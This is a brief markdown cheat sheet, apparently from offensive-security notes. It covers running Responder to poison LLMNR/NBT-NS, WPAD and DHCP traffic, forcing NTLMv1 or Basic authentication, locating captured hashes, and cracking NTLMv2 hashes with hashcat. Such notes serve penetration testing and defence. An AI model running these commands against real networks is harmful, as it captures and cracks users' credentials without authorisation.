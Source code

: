 ### Responder 
Standard (let run in background)
```bash
sudo responder -I eth0 -dwf
```
Need NTLMv1 (**not opsec friendly**)
```bash
sudo responder -I eth0 -dFP
```
Locate hashes under `/usr/share/responder/logs` and  `/usr/share/responder/`
```bash
sqlitebrowser /usr/share/responder/Responder.db
```
Crack
```bash
hashcat -m 5600 adm.ntlmv2 ~/rockyou.txt
```

| Flag           | Description                                                                                                                                                                                                                                                                                                                     |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-A`           | Act as a fly on the wall and listen to the traffic                                                                                                                                                                                                                                                                              |
| `-w`           | Rogue WPAD server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has [Auto-detect settings](https://docs.microsoft.com/en-us/internet-explorer/ie11-deploy-guide/auto-detect-settings-for-ie11) enabled. |
| `-f`           | Fingerprint machine                                                                                                                                                                                                                                                                                                             |
| `-F`      `-P` | Force orce NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly                                                                                                                                                                                          |
| `-d`           | Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.                                                                                                                                                                                                                         |
### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

